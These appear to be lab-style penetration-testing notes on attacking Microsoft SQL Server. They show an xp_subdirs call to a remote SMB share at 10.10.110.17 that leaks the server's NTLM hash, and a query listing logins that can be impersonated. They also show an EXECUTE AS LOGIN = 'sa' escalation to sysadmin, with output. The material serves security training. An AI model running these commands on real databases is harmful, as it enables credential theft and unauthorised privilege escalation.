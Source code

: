**XP_SUBDIRS Hash Stealing**

```
1> EXEC master..xp_subdirs '\\10.10.110.17\share\'
2> GO
```

### **Impersonate Existing Users with MSSQL**

**Identify Users that We Can Impersonate**

```
SELECT distinct b.name
FROM sys.server_permissions a
INNER JOIN sys.server_principals b
ON a.grantor_principal_id = b.principal_id
WHERE a.permission_name = 'IMPERSONATE'
6> GO

name
-----------------------------------------------
sa
ben
valentin

SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE'
```

**Verifying our Current User and Role**

```
1> SELECT SYSTEM_USER
2> SELECT IS_SRVROLEMEMBER('sysadmin')
3> go

-----------
julio

(1 rows affected)

-----------
          0
```

As the returned value `0` indicates, we do not have the sysadmin role,

**(Example) Impersonating the SA User**

```
1> EXECUTE AS LOGIN = 'sa'
2> SELECT SYSTEM_USER
3> SELECT IS_SRVROLEMEMBER('sysadmin')
4> GO

-----------
sa

(1 rows affected)

-----------
          1
          

EXECUTE AS LOGIN = 'sa' SELECT SYSTEM_USER SELECT IS_SRVROLEMEMBER('sysadmin')
          
```
